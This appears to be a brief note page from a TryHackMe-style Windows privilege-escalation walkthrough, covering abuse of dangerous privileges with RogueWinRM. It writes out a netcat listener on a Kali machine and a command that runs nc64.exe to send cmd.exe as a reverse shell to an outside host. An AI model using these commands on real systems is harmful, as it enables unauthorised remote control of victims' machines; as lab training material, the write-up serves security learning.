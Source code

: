 <figure><img src="../../../../.gitbook/assets/image (16) (3).png" alt=""><figcaption></figcaption></figure>

## Abusing dangerous privileges

**Examples**

[#abusing-dangerous-privileges](../../../../walkthroughs/tryhackme/windows-privilege-escalation.md#abusing-dangerous-privileges "mention")

<figure><img src="../../../../.gitbook/assets/image (32) (3).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvp 4442
```

**Victim(Browser)**

```
c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe 10.10.22.165 4442"
```

<figure><img src="../../../../.gitbook/assets/image (2) (2) (1).png" alt=""><figcaption></figcaption></figure>
